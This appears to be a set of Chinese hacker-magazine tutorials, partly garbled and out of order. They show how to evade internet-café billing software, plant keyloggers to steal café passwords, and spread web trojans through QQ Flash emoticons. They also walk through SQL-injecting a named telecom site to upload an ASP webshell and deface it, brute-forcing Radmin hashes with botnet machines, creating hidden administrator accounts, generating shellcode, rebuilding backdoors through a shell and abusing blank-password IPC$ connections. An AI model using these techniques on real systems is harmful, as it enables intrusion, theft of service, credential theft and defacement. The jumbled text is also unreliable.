在实施本大法之前，我们有必要先确认一下：网吧计费主机要为客户机提供查询消费和换机等服务，对客户机进行打开、锁定、关闭等操作，就必须和客户机进行通信。而我们要上网，就必须先让网吧计费主机为我们打开客户机，所以我们还是要花钱。还有当我们的时间到了后，网吧计费主机会看作我们这里没人。所以实施所有免费上网的方法都有个大前提：网吧的人既不能太多，也不能太少。因为网管不是白痴！记住：知足常乐！别太贪心而上太多！

在 X 第 6 期上有一篇“非常防火墙——Look 'n' Stop”，仔细研读发现确实很不错。最难能可贵的是可以自己设置“互联网过滤规则”。这样更有针对性，也更个性化。我就用它研究出一套完美的免费上网大法，不敢独享，特来与众黑迷 share 一把！

（作者肯定在设计时没有为网吧考虑），CS 也理所当然地打不起来了。因此我们也不能查询消费了，但是我们就可以不受网吧计费主机的控制了。可是怎么解决 CS 和网速的问题我一直没搞定，直到一天……

“以太网：类型”为全部，“来源以太网：地址”为等于，在后面的框内填上网吧计费主机的 MAC 地址，其他的不用管，如图 4。OK！到此为止，网吧计费主机的问题、CS、网速、QQ 等问题都解决了，这样想上多久就能上多久了。


图 1

我发现我每查询一次消费，就会多出一条日志，于是我仔细地分析了日志，如图 2。我发现每次 IP 相同，我敢肯定那就是网吧计费主机。在日志里我发现网吧计费主机与客户机的通信是基于 UDP 的，日志里还有网吧计费主机和本机的 MAC 地址、截获本次通信的规则、通信端口等。也许你会说：我们设置规则过滤掉主机—本机的通信端口。其实不行，这种通信会有几个备用端口，一个被堵，它用另一个。还有我多次分析日志后发现还有一条规则：“UDP: Any other UDP packet”，如图 3。删掉它们后所有问题都消失，可是又被计费主机控制了，那怎么办呢？别急！还有下文！


图 4

以下是我的使用建议：由于网管不是白痴，托盘处会有可疑图标，所以我们需要很强的隐蔽性才行。建议在添加规则时把规则名和描述写得具有迷惑性（可以用其他的规则名和描述来代替），再把所建规则往下移动一下。还有在熟悉之后就不要打中文补丁，使用英文的更能隐藏。最后是杀手锏：注意选项里的高级选项，如图 5，把“当本程序退出后仍保持互联网过滤规则处于活动状态”勾上，坏了可以关闭它了。到此没有可疑图标，没有可疑进程，简直太完美了。

#### 二、前期准备

安装和使用在 X 的第 6 期上讲得很清楚了，这里就不多说。但是提醒注意几点：

- 1. 安装完后会有询问是否重启的对话框，选不重启。
- 2. 有些机器的系统和软件环境不同，有的会安装硬件驱动、出现 Windows 图标提示，此时应继续安装。
- 3. 运行 Look 'n' Stop 后不能查询消费，表示网吧计费主机与客户机通信已被阻断，计费主机已不能控制电脑；但可能上不了网，也可能不能联网打 CS 等基于 UDP 的游戏，QQ 视频也受影响，偶尔会提示“新 TCP 中转”，上网速度明显下降。

#### 三、漏洞捕捉

关闭 Look 'n' Stop 之后上述问题全部消失，看来问题出在 Look 'n' Stop 上。6 期上讲了“上网就改最后一条规则，图 1 的‘以太网：类型’为：IP 型”，这引起了我对它的关注。仔细研究发现它的作用就是过滤掉所有非 Look 'n' Stop 允许的传入和传出的通信。那么它一定把网吧计费主机和客户机之间的通信给过滤掉了。


图 2

#### 四、解决问题

其实很简单嘛！记得日志里的网吧计费主机的 MAC 地址吗？这么设置吧：“方向”为传入，“以太网：类型”为 IP 型，“协议”为全部……


图 5

最后说下，本文大法在大多数的系统和软件环境下测试通过，不过在 98 系统下无法打开 Look 'n' Stop 而不能成功。再次强调：知足常乐！别太贪心！由此引发的各种后果与本人无关！（本文中涉及到的程序 Look 'n' Stop 已经收录在光盘中）

### 菜鸟的免费上网大法

——我是孟星魂

关于网吧免费上网的文章在以前的杂志上讲过许多，可是小弟也发现一些高手没有注意或者不屑的地方，这次就拿出来丢一下人，希望对各位菜菜们有点帮助。

我们山东的网吧 N 年前都是统一安装的 Pubwin，起先版本较低，随便用任务管理器就能结束进程（默认程序名称是 pubwin.exe），所以那时大家都玩得很高兴，因为不用省下自己的饭钱来上网了（我就曾经因为上一天只吃两顿饭，真是不堪回首啊）。可随着 Pubwin 的升级，这个直接关闭进程的方法就不管用了，因为 Pubwin 有了保护进程的功能（其实就是运行的同时附加了 Reclock.exe，用结束进程的工具 Pk.exe 就能发现这两个进程在同一个目录里），往往是刚结束 pubwin.exe 没多久，系统就会重启或继续被锁定。这时候也不知道哪位牛人发明的用十六进制编辑软件 WINHEX 在内存空间里找“WELCOME_TY”这几个字符，就能找到管理员密码。

在此就简单地说一下：就是用 winhex 的“打开 RAM”（图 1）→“pubwin”→“主要内存”，再在 winhex 的工具栏上选择“搜索”→“寻找文字”，填上 welcome_ty（不区分大小写），点击“确定”，在“welcome_ty”下边的那几个字符就是管理员的密码。


图 3


图 1


图 4

因为有时候不一定能找到 welcome_ty，所以上边的那个方法不一定每次都成功。在此，我再介绍另一种方法，是以前看了“不用工具破解还原精灵”想到的，这个办法效果更好：在任务栏的 pubwin 图标上点右键，选择“系统设置”选项（图 2），在弹出的“注销入管理员口令”对话框里随便输入个密码（图 3），最好别是 11111 或 00000 这样的汇编数值，查找的时候可能分不出哪个才是真的密码。点“确定”，弹出一个“密码错误”的对话框，别关闭这个对话框，选择 winhex 的“内存打开程序”里“pubwin”→“主要内存”，再在 winhex 的工具栏上选择“搜索”→“寻找文字”（图 4），填上你刚才输入的密码，点击“确定”（图 5），有时真正的密码就会在你输的密码下边了。


图 2


图 5

到了更高版本的 Pubwin4.0，如果再想找到密码就不可能了——因为密码加密了，就算找到也都是一些乱码，好像还不是 MD5 加密的，因为并不是 16 或 32 位，各网吧里位数还不相同，不知怎么回事，让我着实质问了好长时间。后来某论坛在网上发布了“Pubwin4 精灵”，就是跳过密码验证直接找到密码的软件，通杀 Pubwin 的所有版本。经过研究发现它的原理就是结束管理软件进程，把 PUBWIN4.0.EXE 改名，再用修改过的低版本 Pubwin 替换。

另外网上还流行着卸载法、禁用网卡法等，甚至有人利用高级的 API 编程来破解。我觉得其实不必弄得这么复杂，我们菜鸟崇尚的是简单。再说如果你使用的电脑是游戏区的，只安装了游戏而不能上网（小编：连这都要专门限制，现在的网吧也太 BT 了吧），那你该怎么办啊？高手说的“入侵管理端直接充钱”就更不用说了，哪有网吧的主机不装防火墙和杀毒软件的，至于默认共享，都啥年头了，早绝迹了吧！

下边就说说我自己的方法，大家可能都没有注意前边提到的 Reclock.exe 那个小文件，其实一切都是它在作怪。不信先结束 Pubwin.exe 进程，Pubwin.exe 马上就会再重新开启；如果结束 Reclock.exe 后，马上到 PUBWIN 的安装文件夹（默认是 C:\Program Files\hinsoft，各地方可能不同）里删掉 Reclock.exe，再结束 PUBWIN.EXE 看看，绝对不会再锁定，于是就有了我今天说的新方法。

顺便提一下，开机后用 QQ 的网络硬盘破解的方法纯属骗人，因为我试过，刚开机的时候除了任务管理器能调出来，什么也不能显示。运行 QQ 的登录框一出来（就是在输完密码后再输本地消息密码的时候），系统就会重新锁定，而且自动关闭 QQ，不知是怎么回事……

用过 Pubwin 的人都知道，Pubwin 哪个版本都没有屏蔽 ctrl+alt+del 的系统按键和 F8 的功能键（默认是没有屏蔽 ctrl+alt+del 的系统按键，可以选上，就是在“使用虚拟桌面”的复选框上打勾，如图 6）。事实证明这是 Pubwin 最大的失误。

正常开机，出现 Pubwin 的欢迎界面，先别忙着去吧台充值，ctrl+alt+del 调出任务管理器……先后结束 reclock.exe 和 pubwin.exe，接着用任务管理器的“运行”功能打开管理软件的文件夹，然后在弹出的对话框里输入想要进入的目录。


图 6

开的文件夹里仍然可以建文件、删文件、运行程序，也可以用鼠标右键，如图 7、图 8。

如果你动作快的话（在 reclock.exe 和 pubwin.exe 被结束的情况下，管理软件重新锁定的时间大概在一分钟左右），直接删掉 pubwin.exe 和 reclock.exe 这两个程序（最好是换一下后缀，只要不让它运行就可以）；否则就在那个打开的管理软件文件夹里建个批处理文件 del.bat，内容如下：


图 7

```bat
del C:\Program Files\hinsoft\pubwin.exe
del C:\Program Files\hinsoft\reclock.exe
```

如果你觉得不够的话，就写上 `del C:\Program Files\hinsoft\`（不过我发现完全删除的软件并不会太好，有的程序删不掉，最好自己手动删）。

现在完成一半了，有个很严重的问题——屏幕下方的任务栏没有显示，而且桌面上的任何程序都不能用，因为不是正常登录，只能用任务管理器运行。


图 8

在任务管理器的“进程”选项里找到 explorer.exe 的进程，关闭。再在“运行”里输入 explorer（后缀 .EXE 不用加），看看任务栏和桌面是不是回来了。

最后解决 Pubwin 的图标问题，我找了个软件改造了一下，也叫 Pubwin.exe（程序已附带在光盘中），屏蔽和鼠标绝对不会重新锁定，它的主要功能就是在状态栏上显示 Pubwin 的图标。


图 9

就在文章快结束的时候，山东的网吧管理软件又换了，是全省统一的一卡通，如图 9、图 10。不过据我所知，除了一两个大的市级地方，由于各种原因，一卡通还没有真的通用。


图 10

## 网吧黑客

提供一种思路，基本上所有的网吧管理软件在开机的时候都能用我的方法关掉，真正地实现免费上网。

“e一卡通”的管理进程名是 `Runme.EXE`，这种管理软件从来没见过，好像现在网上还没有流传破解的方法。反正直接在程序中找密码是比较困难的，我用了好几种办法也不行，希望有高手可以指教。

下面说一下管理软件文件夹里的几个比较重要的程序：`timeclose.exe` 的功能就是和计时有关的，大概就是到了时间以后锁定机器；`smss.exe` 的功能是保持网络通道；而且和系统进程的 `smss.exe` 很像，不过在任务管理器里可以看到这两个 `smss.exe` 进程不一样，一个是属于用户的，一个是属于 system。

这个 `smss.exe` 不能用任务管理器结束，提示是重要进程。如果开机的时候只把 `runme.exe` 和 `timeclose.exe` 的进程结束，那个 `smss.exe` 每过五六分钟就会弹出一个对话框“无法找到管理端”，如图11。如果是在玩游戏，肯定不行；进了桌面后用 `pk.exe` 就能结束；`Set.exe` 就是设定用户端的文件，不过进去是要密码的，如图12。

`Ctrl+Alt+Del` 打开任务管理器，先后关掉 `runme.exe` 和 `explorer.exe`，再在“运行”输入框里填上 `explorer` → 确定，进入系统，马上在管理目录里（默认是 `C:\Program Files\HC\hcard`）删掉 `timeclose.exe` 和 `runme.exe`，下载 `pk.exe`，关掉 `smss.exe`，在那个目录里狂删吧。

按着运行我改造的 `runme.exe`（就是和前面提到的伪装管理软件的程序 `pubwin.exe` 的功能相同），开心地玩吧！

如果禁止使用任务管理器，那也是有办法的。即使是屏蔽了任务管理器，开机的时候也可以用 `Ctrl+Alt+Del` 调出来，在屏幕的左上角，它的刷新速度很快，每一次出现后如果不小心关掉了就不能再被调出来了。不过这时你鼠标的移动范围是被限制在登录框以内的，这就要看你的机器的快慢了，普通的机器在屏幕鼠标被完全锁定之前，任务管理器应该已经出来了。拖动任务管理器到“一卡通”登录框的范围内，现在就和没有限制任务管理器一样了，这是一个熟练程度的问题。


基本上一次就能反应过来，如图13。

关于系统版本的问题也要说一下，大家都知道：选择各个版本的任务管理器的步骤是不同的。XP Home Edition 直接按 `Ctrl+Alt+Del`；2000 和 XP 专业版按 `Ctrl+Alt+Del` 后还要用小键盘的“→”和“←”选择才能看到任务管理器（就是按四下小键盘的“→”，选择时“任务管理器”选项在登录框后边，没办法直接用鼠标操作，只能用键盘，其实自己试一下就知道了）。

最好是有退出管理系统的密码，至于找密码，可以考虑用社会工程学，比如你以前破解过他的 `Pubwin` 的密码，一般人是不会改自己经常用的密码的。另外一般比较正规的网吧里肯定要安装还原精灵或还原卡，破解这个的密码要简单得多，网上的工具和教程有的是，随便就能找到。

还可以等上机后装个键盘记录器，骗网管说游戏什么的不能用，让他进管理系统设置，密码就有了（不过一般情况下网管也不一定知道这个密码）。还有就是试试机器的 BIOS 密码、当前的用户名、密码、网吧的名称、联系电话之类的，实在不行就自己开着工具跑，密码一般是六位的数字或字母。

如果以上的方法还是不能免费的话，告诉大家一个最简单、最通用和最安全的办法，先去吧台充上1块钱，正常上机，进管理系统后删掉些东西，这时候的限制就没有了。本次开始说的网上流传的那些办法就能用了，而且只结束用户的 `smss.exe` 进程就能停止一卡通管理软件，时间到了就不会被锁定，这样就达到免费上网的目的了。

大家可能都注意到了，在它的系统限制设置里有“禁止使用任务管理器”这一项，如果该选项被选中，就比较麻烦了。先说一下没有屏蔽的时候吧：和破解 `Pubwin.exe` 一样，别忙着输卡号，

> （本文涉及到的软件 pubwin、无线工具、winhex10 等工具，光盘有收录）

## 网吧黑客

我是从《黑客X档案》创刊开始看的，几年的时间，也有了不少的收获。在此，特把自己的一点经验写出来与大家分享。


想必 QQ 的魔法表情大家都玩过吧，今天给大家说的就是利用 QQ 的魔法表情来让任意在线的 QQ 号码中木马。制作过 FLASH 的朋友肯定知道它里面有这样一条语句 `geturl()`，这条语句的作用是当 FLASH 播放到插入该语句时跳转到指定的网址或网页。

腾讯为了更加丰富魔法表情，开通了上传个性魔法表情的功能。我们要做的就是自己动手制作一个 FLASH 动画（不会制作的朋友可改现成源码），上传后通过 QQ 发送给对方，即可触发。


```text
getURL("http://www.xxx.com/src/index.html")
```

你只需要将括号里的网址改成自己的网页木马地址即可。修改好后保存，按 `Ctrl+Enter` 组合键，会在目录下自动生成一个后缀名为 `swf` 的文件，这就是要上传到腾讯去的文件。


上传好以后，就可以发给任意的 QQ 了，只要对方在线就可能触发。文中并提到可通过禁用 FLASH 播放器等方式防范。

## 实战网吧之 获取下载权限

我们这儿最近新开了一家网吧，下载软件时被限制，IE 安全选项中的“自定义级别”和“默认级别”为灰色。看起来只能进入注册表修改。

点击“开始→运行”，输入 `regedit`，进入 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel`，删除相关键值后重开 IE，可恢复安全级别调整能力。


也可以新建 TXT 文件并保存为 `.reg`，用于导入注册表实现解锁。

```text
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

编辑好后双击导入即可。Win2000/XP 可将头标识改为 `Windows Registry Editor Version 5.00`。

REG 文件导入法有时不可用。可在命令提示符下使用 `reg /?` 查看参数，执行 `reg import unlock.reg` 导入；也可先导出后修改再导入。

```text
reg /?
reg import unlock.reg
```

若是 Windows 2000/XP/2003，还可在“运行”中输入 `gpedit.msc`，进入“用户配置→管理模板→系统”，在“阻止访问注册表编辑工具”中设为“已禁用”后确定退出，即可解锁。

### 反击网管

小龙猪

大四的生活确实很枯燥无聊，在几个好哥们的邀请下，我来到学校外面的网吧开始了更枯燥的包夜生活。当然，也少不了在这个网吧搞些实用的东西了！

网吧的客户机使用的是 Win2000 系统加 `pubwin` 管理程序，先来查一下服务器的 IP 地址和管理员密码，得到服务器 IP 地址就确定入侵目标，如果能够入侵网吧主机，当然是最好的了。

打开“pubwin4 破解精灵 V2005”，点跳过密码验证，然后程序就会自动给伪覆盖一个空的口令的 `pubwin` 程序。此时用软件自带的星号密码查看，果然拿到了管理密码。


图2


图3


图1

我就结束进程后再使用老版本替换 `pubwin`，果然显示的和原来的一样，居然密码是“win**”。现在的网管可真聪明，害我浪费了半天时间。

通过 `pubwin` 的管理设置，知道了主机 IP 为 `192.168.0.249`。再通过 `ntscanner` 快速得到网吧所有电脑名称，并定位到几台服务器的地址。确认可连后建立 IPC 管道连接，并准备在目标机上启动服务。

由于目标机是 Win2003 系统，一些常见远程溢出手段未成功。随后注意到 `192.168.0.247` 这台电影服务器，猜测网吧在线充值等业务运行其上，于是转向该主机继续尝试。

派我的同谋朋友去吧台充 Q 币，借机通过灰鸽子键盘记录拿到网吧用户与密码。免得肉鸡丢失，先给自己充值并共享给同学，感觉像在网吧钓鱼。


图4

其实很多网吧包含局域网用户，管理员用户常因安全意识不足而存在未修复的远程漏洞。大家仔细发掘其中的乐趣吧，相信你会比我更成功！

（文中涉及到的程序 pubwin4 破解精灵 V2005、ntscanner、叮D网终工具包已经收录于光盘中）

## 傻瓜黑客


# 傻瓜黑爱


## 教你使用

## 啊D注入2.3X档案专版

小静静的老公仔

小巧玲珑的黑客工具，带领我们尝试黑客生活，攻破极限……

近日，我又从一个著名的黑软作者——啊D那里得到了他专门给《黑客X档案》打造的啊D超强注入工具（黑客X档案 v2.3 专版）……


图1

怎么样，真是不错的哦，就是啊D的风格，界面简单、清爽。这里需要注册一个用户，才可以免费试用……

闲话就不多说啦，我们来体验一下这款最新版的注入工具吧。首先说说，它跟网上免费的版本是有所不同的……


图2

怎么样？检测不到任何的注入点吧？那一般情况下，从注入的角度出发，我们只有放弃咯。这里有人要反对我了，有人会说，找个页面，加个 and 1=1，and 1=2 之类的手工检测方式看看……


图3

怎么样？“HTTP 500 内部服务器错误”，现在可以相信我了吧？！继续吧，用那个以前超级牛的 NBSI 注入看看……先用 911 破解版，看看它的检测结果，如图4。


图4

如何啊？又不满意了吧？！呵呵，你们早该想到会是这样的结果了，要不，台湾电信还不早就给黑了！这里，我再用一个你们比较少见的注入工具……

大家看到左边的圈圈吧，那里写的是 xiaolu 修改版的，不是普通版本的，可惜的是，结果还是跟 911 破解版一样，只扫描出一个极低的注入点……


图5

连内部版的工具都使不上了，看来不好对付哦，惟有出动我们今天的主角了。来吧，扫描注入点看看，选择“扫描注入点”把台湾电信的网址写上，然后点击“扫描”……

这里要注意的是，大家先确认一下版本，看最顶的一行，圈住的，是黑客X档案专版吧；另外看清楚，是台湾宽频电信的网站吧；再看最底下的那一行，那就是注入点啦……

好，继续我们的检测啦，对着注入点点击右键，然后选择“注入检测”，就会自动跳到“sql注入检测”那个功能块了，点击“检测”，开始在跑啦……结果出来咯，如图7。

## 傻瓜黑客


怎么样？完全不同的效果吧（啊D：肯定啦，这是会员版啊）。检测出来的表段就有124个，刚才好像才6个，而且检测字段内容的时候，也不会有限制了。这里我就不继续去猜解了，因为没有必要……


账号对我也没有什么用，拿到后台管理员密码也没有什么用，因为后台你是绝对扫描不出来的，也猜测不出来的。那么我们唯有走其他的路了……选择“相关工具”板块，然后“注册表读取”。


我晕，不是吧，那么少表段、字段？还检测不出用户的管理……原来我的还不是会员，怪不得啊D会卖会员版。看来，黑客X档案专版的功能还是给作者限制了一些。

黑了他……（我汗），注册表读取，这里有个检测这个网站根目录的，不检测出物理路径，我们怎么上传木马啊？如图9。好啦，读取出来了：`c:\inetpub\wwwroot`。

目录也列出来了，选择“cmd上传”，然后在“本地文件”里选择你要上传的 asp 木马，目标位置填刚刚获得的物理路径+文件名（如 d99.asp），如图11。


好啦，来访问我们上传的木马看看，打开 IE 输入刚才的网址 + d99.asp，哈哈，成功了，兴奋ing……如图12。剩下的事情就是修改主页，把 index.asp 改成你的黑页就 OK 了。


好了，来访问看看，如图13。哈哈，大家不要说我过分哦。今天到此结束了，剩下的是我的事情啦……（注：文中已收录啊D注入工具2.3X档案专版）。


### 简陋小招查出系统信息

相信遭受机的系统启动时间、CPU 的频率、BIOS 版本、内存配置、网卡与 IP 情况，还有多少进程、系统区域设置等信息，都不必东奔西走去找，也无需系统之外的工具。

“开始”→“运行”，输入 `cmd` 并确定，进入 Win2000/XP 命令窗口，输入 `systeminfo` 回车即可看到详细系统信息。若要保存为文本，可输入 `systeminfo > sysinf.txt`。


## 突破校园网

## 为了连QQ玩网游

番茄炒蛋

现在大学里，几乎都有校园网，直接在宿舍里上网，没有什么限制，呵呵，电脑可以16小时开着，QQ、网络游戏一直挂着，好幸福呀……可惜好景不长，校园网内也有好多蠕虫病毒，搞得学校里的北师大远程视频点播系统不能正常使用，学校就封了端口，只开放诸如80等必须的端口。


不能上泡泡，玩网络游戏，QQ 不能挂机。于是开始寻找突破端口限制的方法。

突破校园网要用到的工具有两个：一是“通通通”，二是 `permeo-Driver-combo-win_4_2_2`（简称 pdc）。“通通通”可在 Win9x/NT/2000/XP 下使用，是一款提供 socks 服务的代理软件。


可到 `www.kusu.org` 下载并安装“通通通”和 pdc。安装后运行“通通通”，先到官网申请账号，然后填写用户名和密码。


将“保存用户名和密码”“运行时自动登录”“登录后自动最小化”勾选。免费用户选择“公共服务器”，首次运行需要更新服务器列表。


右键托盘图标可打开设置菜单。双击托盘图标进入详细设置，勾选“show icon on the taskbar”可在任务栏显示图标。


点击“in office”后的“Edit”按钮，会出现具体设置界面。


点击“New”添加代理设置，在“Server setting”中选择“SOCKS5 proxy”，Name 填 `127.0.0.1`，Port 填 `1080`；“Destination settings”默认 any 即可。


在“Application”页可选“Proxy only”，点击“include list”添加需要代理的软件（如泡泡、QQ），确认后完成设置。


## 傻瓜黑客


设置操作就完成了，现在来启动通通通，然后启动 pdc，再右击屏幕右下角托盘中的图标，选择“011. of office”，然后运行“QQ也疯狂”，哦耶！可以了，如图11、图12。泡泡也可以连上服务器了……如果这里也有限制的话，不妨使用本文介绍的方法试试看。

> （文中涉及到的程序通通通、permeo-Driver-combo-win-4.2.2 已经收录于光盘中。）

### 破解 Radmin 密码——不败的神话

魔女の条件

自从出现了“4899探测器”，席卷起来一股寻找4899肉鸡的浪潮。随着网络安全意识提高，这类事件逐渐减少。这样一个新问题就摆在我们面前：如何破解 Radmin 密码？“Radmin2.1 暴力破解器”通过向密码对话框逐字输入尝试，但需要在线连接，且容易留下日志并被管理员发现。

尝试的功能，您可以使用“按键精灵”建立脚本来完成自动输入密码并验证。若想成功爆破，需要足够强大的字典、耐心和运气。

从中，可以知道 Radmin 服务端口的数值（图2）。真正关键在“密码”方面，常见“星号密码查看器”都无法读出 Radmin 密码。Radmin 使用 MD5-Hash 处理密码字符串，读取密码这条路走不通。

如果您取得了 webshell 权限，或得到一台电脑的 Guest 权限但无法提权，或忘记了远程管理服务器 Radmin 的连接密码，破解 Radmin 密码都可能成为后续入侵与提权手段。


```text
Regedit /e radmin.reg HKEY_LOCAL_MACHINE\SYSTEM\Radmin\v2.0\Server\Parameters
```

然后下载导入到您的电脑中，在“服务端设置”程序的“选项”中的“端口”框设置相关参数，即可进行后续尝试。


我在国外网站闲逛时，偶然发现一款可用“穷举模式”“字典模式”和“特定模式”爆破 Radmin 密码的程序 PasswordsPro V1.3。原版为英文，作者制作了中文化版本供大家使用。

首先让我来介绍一下 **PasswordsPro V1.3.0.0** 这款工具。它可用于恢复 MD4、MD5、MySQL、SHA-1 等 Hash，也支持星号密码恢复，并可进行暴力破解、字典破解、分布式破解等，速度较快。

文中演示了在“输入需要生成散列的文本”中输入示例文本（如 `hackbase`）并得到对应 Hash，说明其与 Radmin 密码散列值的对应关系。


#### 二、功能简介

PasswordsPro V1.3 作为密码恢复工具，具有六项主要功能。

- **散列生成器**：输入文本后生成各算法散列值。  
- **密码生成器**：按规则生成任意长度密码。  
- **字典生成器**：批量生成密码字典（含前缀/后缀/符号组合等）。  
- **密码管理器**：存储并管理密码，可设置主密码保护。  
- **散列密码恢复**：支持 MySQL、MD4、MD5、MD5(Base64)、MD5(Unix)、MD5(APR)、RAdmin 2.x、SHA-1、SHA-1(Base64) 等。  
- **隐藏密码恢复**：用于查看程序中被掩码显示的密码。  

#### 三、实际运用各项功能

##### 1. 散列生成器的使用

打开“散列生成器”，在输入框中输入需要生成散列的文本。文中还说明了密码前缀、后缀与主体组合的思路（如 `hack` + `9500142` + `base`）。

##### 2. 密码生成器的使用

可在“密码生成器”中设置密码规则：大写字母、小写字母、特殊符号、数字、自定义字符等，并设置生成数量与最大长度。

##### 3. 字典生成器的使用

“字典生成器”用于批量生成密码词典，可对“密码生成器”进行补充，支持字符集与密码规则组合。


##### 4. 密码管理器的使用

“密码管理器”类似密码日记，可添加文件夹/记录并保存数据库。文中提示要为数据库设置密码，避免为空密码。

##### 5. 散列密码恢复的使用

在“散列密码恢复”中添加散列值，选择 Hash 类型，并在“服务”菜单选择破解模式（穷举/字典/特定模式），随后开始爆破。


##### 6. 隐藏密码恢复的使用

隐藏密码恢复通过抓取方式查看当前运行程序中的掩码密码。密码显示出来后，将鼠标移到星号密码的上方，单击就显示出真正密码了。

### 侵入黑客

### 三、实战暴破 Radmin 密码

暴破 Radmin 密码首先要把加密后的数值添加到“PasswordsPro”的散列密码恢复工具中。这里有两种方法供大家使用：第一，在 CMD 模式下，使用命令导出 Radmin 的密码参数并用记事本打开，复制密文到工具中；第二，点击“服务”菜单，在“另外地”中从注册表加载 RAdmin-Hash，提示“散列已经添加成功”。


然后，我们要做的就是为这次暴破设置使用哪种暴破模式进行破解。按“F9”在“散列密码恢复-配置”中选择“穷举模式”，并重点设置“分布式攻击”相关选项，在“参加分布式攻击的计算机数量”中选择参与暴破的肉鸡数量。


终于，工夫不负有心人啊！在肉鸡够多、配置够好等客观因素下，偶耐心等待暴破出了密码。希望将来有牛人写出 Radmin 溢出程序。由于能力和水平所限，文中若有疏漏和错误，恳请指正。

> （本文所涉及的相关工具：PasswordsPro V1.3 光盘中有收录。）

## [隐藏管理员超级工具]——hideadmin

当我们入侵了一台机器时，首先要做的是添加管理员。以往添加管理员常用命令为：`net user <name>$ {pass} /add`，`net localgroup administrators <name>$ /add`，但对新手来说仍有难度。

```bash
net user <name>$ {pass} /add
net localgroup administrators <name>$ /add
```


今天，我就给大家推荐一个超级隐藏管理员工具——hideadmin。它是执行命令行的工具，只需把它复制到目标系统目录后，运行 `hideadmin <name>$ pass` 即可。相比 `net` 命令，隐藏效果更好，在管理工具和 `net user administrators` 中都不可见。

```bash
hideadmin <name>$ pass
```


> （文章涉及的工具 hideadmin 光盘中有收录。）

## 缓冲区溢出编程小助手  
## —— ASM2Shellcode

王欣

相信有过编写 Windows 缓冲区溢出经历的朋友都会觉得 Shellcode 的提取是一个繁琐而枯燥的过程。虽然国内外有不少代码可以将汇编译成二进制文件的代替方法和捷径，但是加上 Shellcode 的变形，这依然是一个让人郁闷的体力劳动。后来 05 年的 x 档案 3 期、5 期，以及其他期刊中也提到或介绍了一款命令行下的代码提取小工具，它对 shellcode 的提取、生成起到了简单的辅助作用，但是依然操作复杂。为了帮助大家从这种简单的体力劳动中解放出来，以便把更多精力放到程序的算法研究中，这款图形化界面的小工具应运而生。由于操作接近傻瓜化，所以我没有给它写一个像样的帮助文件。下面我们就用一个例子简单介绍它的操作流程。

读者可以在光盘中找到这个程序，也可以在网上下载。这个程序 5 月 23 号首次发布在 EST 的网站，x 论坛里面也有下载链接。首先打开压缩包，看见里面有几个杂七杂八的文件，其中那个“FFE4”图标的程序就是我们需要使用的程序（相信用过上述这个工具的朋友都明白它的含义）。打开程序，看到界面里按钮一共 5 个，其实最有用的也就是“生成”了。我们首先要有一段起一定功能的汇编代码，然后直接输入到编辑区，或者使用“打开”按钮来导入已有的汇编文本，然后再点击“生成”，我们需要的 shellcode 就在结果区出现了。


我们从头操作一遍，还是采用 x 档案 05 年 3 期和 5 期里面的代码例子来试用工具。打开 VC，新建一个代码文件，输入以下内容：

```c
#include <windows.h>
main()
{
    char buf[4];
    buf[0]='c';
    buf[1]='m';
    buf[2]='d';
    buf[3]='\0';
    WinExec(buf,SW_SHOW);
    exit(1);
}
```


保存之后按 Ctrl+F10，然后再 Alt+F10 进入汇编调试界面，如图2。把代码拷贝下来，粘贴到我们 ASM2Shellcode 程序的编辑区，然后做一些修改，在开头加上 BIT 32，然后去掉代码中的 ptr，修改好了以后可以保存成文件，如图3。


不过记得把其中的 `0x7c86114d` 换成自己计算机上的 WinExec 函数的入口地址，然后点击“生成”按钮，可以看到我们需要的 shellcode 很快出现在了输出区，如图4。


接下来我们把代码拷贝到 VC 里面测试一下，看到运行通过（如图5），说明我们的程序生成的 shellcode 是可用的。


好了，程序的功能大致就介绍完了。如果大家使用过程中发现了小问题，或者有什么建议，请在 x 论坛告诉我，以便这个程序以后更方便好用。

（本文涉及的 ASM2Shellcode，光盘中有收录。）

## 傻瓜黑客

当你得到一个肉机的 shell 时，下一步要做什么呢？为了能长久地控制和方便管理，当然是要上传“后门”。文中讨论了在内网环境下常见上传方法失效后，如何把批处理脚本转换为 EXE 的思路，并介绍了 bat2exe/CGI 工具的使用。

### Shell 下的另类上传

通过将 bat 文件转换为 exe，并在目标 shell 中重建文件，可生成后门程序（如 eighteen3.exe）。这种方式不依赖额外网络工具，能以“代码”方式写入对方机器，在某些受限环境下可绕过常规上传障碍。


图 1


图 2

（注意：转换程序不宜过大，否则会在重建后造成体积过大。）随后通过记事本全选复制源码、在命令行使用 `copy con` 粘贴并保存，再执行重建出的 EXE。优点是隐蔽、依赖少；缺点是上传/重建过程耗时且可能出错。

### 实录助手入侵前奏

作者介绍了一个体积较小的“入侵助手 1.0”工具。其界面和功能偏向 IPC$ 连接场景，适合快速尝试弱口令/空口令环境下的远程连接与信息探测。


图 1

文中强调通过 139 端口特征判断目标，结合 IPC$ 连接进行测试。示例目标 IP 为 `192.168.1.6`，默认管理员账户可尝试 `administrator`，密码留空进行连通性验证。

小静静的乌龟


图 2

> 还是说明一下：如果碰到扫描慢、无结果等情况，可以先做连通性与端口确认，再进行后续步骤。扫描属于准备工作，具体入侵过程不在此详述。

然后去进行整个局域网的扫描，因为这里我们主要是试用这个“入侵工具”。然后，点击“建立连接”那个按钮。好啦，建立成功了，它在下面的“命令行执行情况”那里会有显示的，如图3。


大家留意看了，不单是有回显告诉你成功了，而且还有那个建立 IPC$ 具体的命令显示给你看：`net use \\192.168.1.6\ipc$ "" /user:administrator`。菜鸟又方便了入侵，又从中加深了对命令的记忆。

好啦，现在我们看看这个工具还有什么功能好玩的？首先提供三个思路：第一，加入用户，开对方 3389，远程登录控制；第二，装上木马，控制对方；第三，这是后门的事情了，留个后门，方便以后使用。

### 首先——建立用户、开3389

建立用户，当然要使用命令啦……这里可以直接用“建立用户”按钮，建立一个新的用户。默认用户名和密码是 Frank/Frank。这里建立的用户不单是超级管理员，而且是隐藏的，在图形界面和 CMD 下都无法直接看出。

```bash
net user 用户名 密码 /add
net localgroup administrator 用户名 /add
```

建立用户后，就是开对方的 3389 端口，进行终端远程登录。这里上传一个 3389.exe，选择“复制文件”，把本地路径如 `C:\3389.exe` 和对方目录填写好，默认上传到对方 C 盘。

